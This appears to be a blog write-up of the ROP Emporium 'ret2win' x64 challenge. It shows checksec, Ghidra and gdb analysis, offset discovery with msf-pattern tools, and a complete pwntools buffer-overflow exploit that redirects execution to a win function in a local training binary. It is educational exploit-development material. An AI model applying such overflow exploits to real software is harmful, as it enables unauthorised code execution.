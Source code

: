 ```yaml
---
title: ROP Emporium - ret2win (x64) - writeup
date: 2023-03-09 21:02:01 +0100
author: farrimwildaxe
categories: [Writeup,ROP Emporium]
tags: [rop,emporium,x64,ret2win,writeup,pwntools]
img_path: /assets/img/ropemporium/ret2win
published: true
---
```



ret2win is the first challenge in [ROP Emporium](https://ropemporium.com/) series where
you need to create very simple ROP to call specific function
in binary to get the flag.

As mentioned on challenge page we need to feed a binary with a padding bytes followed by a ROP chain - which in this challenge is an address of specific function - `ret2win()`.
Also there is additional information about the size of the payload which triggers buffer overflow - it's 40 bytes.

Ok, so lets start. First download and unzip binary, after that next thing is to check what security settings are enabled, ypu can use `checksec` tool from pwntools:

```bash
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-9 21:36:09] checksec ./ret2win                                                                                                                                                                                                
[*] '/home/kali/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
As we see in the output above NX bit is enabled, so we can't execute our code directly on the stack, also there is partial RELRO.

Ok, so whats next? Let's check what's inside with Ghidra. As you can see on the image below except `main()` function there're also `pwnme()` and `ret2win()`

![ret2win main() function in Ghidra decompiler](ret2win-main.jpg)

Let's check what is in the `pwnme()` function:

![ret2win pwnme() function in Ghidra decompiler](ret2win-pwnme.jpg)


And last but not least, `ret2win()` function:

![ret2win ret2win() function in Ghidra decompiler](ret2win-ret2win.jpg)


`pwnme()` this function has a buffer overflow mentioned on a challenge page - it's taking 56 bytes and writing it to the 32 bytes buffer. Now, we need to confirm how many bytes we need to put to make buffer overflow and control `RSP` register. We can use `msf-pattern_create` and `msf-pattern_offset` tools for that. First we need to create a pattern:
```bash
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 17:38:57] msf-pattern_create -l 64                                                                                                                                                                                         
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A

```
Next, after pattern is created, we need to run `ret2win` binary in gdb, and use a pattern in `read()` call:

![ret2win using generated pattern to find proper padding length](ret2win-pattern.jpg)

Ok, binary has crashed. In the gdb context we can see that `RSP` has `b3Ab4Ab5` pattern, let's check it in by using `msf-pattern_offset`:

```
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 17:51:39] msf-pattern_offset -q b3Ab                                                                                                                                                                                       
[*] Exact match at offset 40
```
Ok, so the size of padding is `40` as mentioned on challenge page, after we verified padding size we need to put proper function address. Let's create simple pwntools script to test that:


```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("ret2win")

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

io.recvuntil(b"> ")

address = b"B" * 8

payload = b"A" * 40 + address
io.sendline(payload)

io.interactive()
```

After running above script (`python3 exploit.py GDB`) we can see that program crashed with segmentation fault and `RSP` contains `BBBBBBBB` string as expected, so we're controling that register:

```python
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400755 in pwnme ()
------- tip of the day (disable with set show-tips off) -------
The set show-flags on setting will display CPU flags register in the regs context panel
Downloading '/usr/lib/x86_64-linux-gnu/libc.so.6' from the remote server: OK
add-symbol-file /tmp/tmp_ynsu7vp/libc.so.6 0x7f9ba83cd000 -s .note.gnu.property 0x7f9ba83cd350 -s .note.gnu.build-id 0x7f9ba83cd370 -s .note.ABI-tag 0x7f9ba83cd394 -s .hash 0x7f9ba83cd3b8 -s .gnu.hash 0x7f9ba83d1330 -s .dynsym 0x7f9ba83d5a48 -s .dynstr 0x7f9ba83e7790 -s .gnu.version 0x7f9ba83ef78c -s .gnu.version_d 0x7f9ba83f0f58 -s .gnu.version_r 0x7f9ba83f14c0 -s .rela.dyn 0x7f9ba83f1500 -s .rela.plt 0x7f9ba83f1d28 -s .relr.dyn 0x7f9ba83f2220 -s .plt 0x7f9ba83f3000 -s .plt.got 0x7f9ba83f3360 -s .text 0x7f9ba83f3380 -s __libc_freeres_fn 0x7f9ba8546df0 -s .rodata 0x7f9ba8548000 -s .interp 0x7f9ba856da90 -s .eh_frame_hdr 0x7f9ba856daac -s .eh_frame 0x7f9ba8574eb8 -s .gcc_except_table 0x7f9ba859a540 -s .tdata 0x7f9ba859b8d0 -s .tbss 0x7f9ba859b8e0 -s .init_array 0x7f9ba859b8e0 -s __libc_subfreeres 0x7f9ba859b8f0 -s __libc_atexit 0x7f9ba859b9d8 -s __libc_IO_vtables 0x7f9ba859b9e0 -s .data.rel.ro 0x7f9ba859c760 -s .dynamic 0x7f9ba859eb60 -s .got 0x7f9ba859ed60 -s .got.plt 0x7f9ba859efe8 -s .data 0x7f9ba859f1c0 -s .bss 0x7f9ba85a0880
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────────────────
*RAX  0xb
*RBX  0x7ffef9f9a078 —▸ 0x7ffef9f9b13d ◂— '/home/kali/ropemporium/ret2win/ret2win'                                                                                                                                                         
*RCX  0x7f9ba84c5190 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */                                                                                                                                                                             
*RDX  0x1                                                                                                                                                                                                                                  
*RDI  0x7f9ba85a1a10 (_IO_stdfile_1_lock) ◂— 0x0                                                                                                                                                                                           
*RSI  0x1                                                                                                                                                                                                                                  
*R8   0x4007f0 (__libc_csu_fini) ◂— ret                                                                                                                                                                                                    
*R9   0x7f9ba85d56a0 (_dl_fini) ◂— push rbp                                                                                                                                                                                                
*R10  0x7f9ba83dcb40 ◂— 0x10001200001a7e                                                                                                                                                                                                   
*R11  0x202                                                                                                                                                                                                                                
 R12  0x0                                                                                                                                                                                                                                  
*R13  0x7ffef9f9a088 —▸ 0x7ffef9f9b164 ◂— 'COLORFGBG=15;0'                                                                                                                                                                                 
 R14  0x0                                                                                                                                                                                                                                  
*R15  0x7f9ba8603020 (_rtld_global) —▸ 0x7f9ba86042e0 ◂— 0x0                                                                                                                                                                               
*RBP  0x4141414141414141 ('AAAAAAAA')                                                                                                                                                                                                      
*RSP  0x7ffef9f99f58 ◂— 'BBBBBBBB\n'                                                                                                                                                                                                       
*RIP  0x400755 (pwnme+109) ◂— ret                                                                                                                                                                                                          
───────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0x400755 <pwnme+109>    ret    <0x4242424242424242>                                                                                                                                                                                     
                                                                                                                                                                                                                                           

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffef9f99f58 ◂— 'BBBBBBBB\n'
01:0008│     0x7ffef9f99f60 ◂— 0xa /* '\n' */
02:0010│     0x7ffef9f99f68 —▸ 0x7f9ba83f418a (__libc_start_call_main+122) ◂— mov edi, eax
03:0018│     0x7ffef9f99f70 —▸ 0x7ffef9f9a060 —▸ 0x7ffef9f9a068 ◂— 0x38 /* '8' */
04:0020│     0x7ffef9f99f78 —▸ 0x400697 (main) ◂— push rbp
05:0028│     0x7ffef9f99f80 ◂— 0x100400040 /* '@' */
06:0030│     0x7ffef9f99f88 —▸ 0x7ffef9f9a078 —▸ 0x7ffef9f9b13d ◂— '/home/kali/ropemporium/ret2win/ret2win'
07:0038│     0x7ffef9f99f90 —▸ 0x7ffef9f9a078 —▸ 0x7ffef9f9b13d ◂— '/home/kali/ropemporium/ret2win/ret2win'
───────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0         0x400755 pwnme+109
   f 1 0x4242424242424242
   f 2              0xa
   f 3   0x7f9ba83f418a __libc_start_call_main+122
   f 4   0x7f9ba83f4245 __libc_start_main+133
   f 5         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 

```

So, now we need to put a proper address at the end of our payload. We can use gdb `disassemble` get the address of `ret2win()` function:

```python
pwndbg> disassemble ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
   0x0000000000400757 <+1>:     mov    rbp,rsp
   0x000000000040075a <+4>:     mov    edi,0x400926
   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    edi,0x400943
   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    rbp
   0x0000000000400770 <+26>:    ret    
End of assembler dump.
pwndbg> 
```
We can use `0x0040075a` (jumping over function prologue) and if everything goes as expected we should do buffer overflow and call `ret2win()` which will print the flag. Let's update our pwntools script with the proper address:


```python
from pwn import *

context.log_level="debug"

elf = context.binary = ELF("ret2win")

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


io = start()

io.recvuntil(b"> ")

address = p64(0x0040075a)
payload = b"A" * 40 + address
io.sendline(payload)

io.interactive()
```

After running our final exploit, we got the flag:
```python
┌──(py3)─(kali㉿playground-kali)-[~/ropemporium/ret2win]
└─$ [2023-03-12 21:30:14] python3 exploit.py                                                                                                                                                                                               
[*] '/home/kali/ropemporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/kali/ropemporium/ret2win/ret2win' argv=[b'/home/kali/ropemporium/ret2win/ret2win'] : pid 1426237
[DEBUG] Received 0x100 bytes:
    b'ret2win by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!\n'
    b'What could possibly go wrong?\n'
    b"You there, may I have your input please? And don't worry about null bytes, we're using read()!\n"
    b'\n'
    b'> '
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  5a 07 40 00  00 00 00 00  │AAAA│AAAA│Z·@·│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x28 bytes:
    b'Thank you!\n'
    b"Well done! Here's your flag:\n"
Thank you!
Well done! Here's your flag:
[DEBUG] Received 0x21 bytes:
    b'ROPE{a_placeholder_32byte_flag!}\n'
ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/kali/ropemporium/ret2win/ret2win' stopped with exit code 0 (pid 1426237)
[*] Got EOF while reading in interactive
```